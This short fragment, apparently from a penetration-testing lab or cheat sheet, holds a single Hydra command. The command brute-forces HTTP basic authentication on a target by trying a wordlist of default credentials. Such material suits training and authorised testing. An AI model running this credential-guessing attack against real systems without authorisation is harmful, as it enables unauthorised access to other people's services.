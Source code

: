 hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt $IP -s $PORT  http-get /

